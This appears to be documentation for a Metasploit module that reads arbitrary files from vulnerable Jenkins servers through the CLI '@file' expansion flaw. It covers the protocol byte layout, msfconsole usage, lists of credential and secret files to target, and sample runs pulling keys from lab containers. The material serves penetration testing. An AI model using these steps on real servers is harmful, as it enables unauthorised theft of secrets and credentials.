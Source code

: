 ## Vulnerable Application

This module utilizes the Jenkins cli protocol to run the `help` command.
The cli is accessible with read-only permissions by default, which are
all thats required.

Jenkins cli utilizes `args4j's` `parseArgument`, which calls `expandAtFiles` to
replace any `@<filename>` with the contents of a file. We are then able to retrieve
the error message to read up to the first two lines of a file.

Exploitation by hand can be done with the cli, see markdown documents for additional
instructions.

There are a few exploitation oddities:
1. The injection point for the `help` command requires 2 input arguments.
When the `expandAtFiles` is called, each line of the `FILE_PATH` becomes an input argument.
If a file only contains one line, it will throw an error: `ERROR: You must authenticate to access this Jenkins.`
However, we can pad out the content by supplying a first argument.
2. There is a strange timing requirement where the `download` (or first) request must get
to the server first, but the `upload` (or second) request must be very close behind it.
From testing against the docker image, it was found values between `.01` and `1.9` were
viable. Due to the round trip time of the first request and response happening before
request 2 would be received, it is necessary to use threading to ensure the requests
happen within rapid succession.

Files of value:

 * /var/jenkins_home/secret.key
 * /var/jenkins_home/secrets/master.key
 * /var/jenkins_home/secrets/initialAdminPassword
 * /etc/passwd
 * /etc/shadow
 * Project secrets and credentials
 * Source code, build artifacts

Vulnerable versions include:

 * < 2.442
 * LTS < 2.426.3

### Protocol Breakdown

A few samples of the protocol that was observed, how to generate it, and the breakdown of fields.
 
|                                           | **Generator**                                                                    | **Heading**                  | **Pad (1)**      | **Unknown (len(@file_name) + 2)** | **len(@file_name)** | **@** | **file_name**            | **Unknown**  | **len(encoding)** | **UTF-8**  | **Unknown**  | **len(locality)** | **en_US**  | **footer** |
|-------------------------------------------|----------------------------------------------------------------------------------|------------------------------|------------------|-------------|---------------------|-------|--------------------------|--------------|-------------------|------------|--------------|-------------------|------------|------------|
| **no pad multi line file (/tmp/file.22)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.22"   | 0000000600000468656c70000000 |                  | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **no pad single line file (/tmp/file.1)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.1"    | 0000000600000468656c70000000 |                  | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad multi line file (/tmp/file.22)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.22" | 0000000600000468656c70000000 | 0300000131000000 | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad single line file (/tmp/file.1)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.1"  | 0000000600000468656c70000000 | 0300000131000000 | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |

### Docker Setup

Version 2.440: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.440-jdk17`

LTS Version 2.426.2: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.426.2-lts`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read`
1. Do: `set rhost [ip]`
1. Do: `run`
1. You should get the first two lines of the `FILE_PATH`

## Options

### FILE_PATH

File path to read from the server. Defaults to `/etc/passwd`.

Other files which may be of value:
 * `/var/jenkins_home/secret.key`
 * `/var/jenkins_home/secrets/master.key`
 * `/var/jenkins_home/secrets/initialAdminPassword`
 * `/etc/passwd`
 * `/etc/shadow`
 * Project secrets and credentials
 * Source code, build artifacts

### DELAY

Delay between first and second request to ensure first request gets there on time, but the second request is very quickly behind it.
Defaults to `0.5`

Testing against the docker image showed values between `.01` and `1.9` were successful.

### ENCODING

Encoding to use for reading the file. This may mangle binary files. Defaults to `UTF-8`

### LOCALITY

Locality to use for reading the file. This may mangle binary files. Defaults to `en_US`

## Scenarios

### jenkins 2.440-jdk17 on Docker

```
msf6 > use auxiliary/gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read
msf6 auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secrets/initialAdminPassword
file_path => /var/jenkins_home/secrets/initialAdminPassword
msf6 auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: ed148f4d-709a-4d16-a452-4509f3a37ed6
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secrets/initialAdminPassword file contents retrieved (first line or 2):
f5d5f6e98e1f466aad22c0f81ca48fb0
[+] Results saved to: /root/.msf4/loot/20240130204021_default_127.0.0.1_jenkins.file_717110.txt
[*] Auxiliary module execution completed
```

### jenkins 2.426.2-lts on Docker

```
msf6 > use auxiliary/gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read
msf6 auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secret.key
file_path => /var/jenkins_home/secret.key
msf6 auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: 0d69c3f1-7695-4db1-a0c6-08108f33e339
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secret.key file contents retrieved (first line or 2):
6ce26592ad3683cc8d056bea07ffa2696f1b14f0db64dbd122c50ab930e279ad
[+] Results saved to: /root/.msf4/loot/20240130204241_default_127.0.0.1_jenkins.file_317409.txt
[*] Auxiliary module execution completed
```
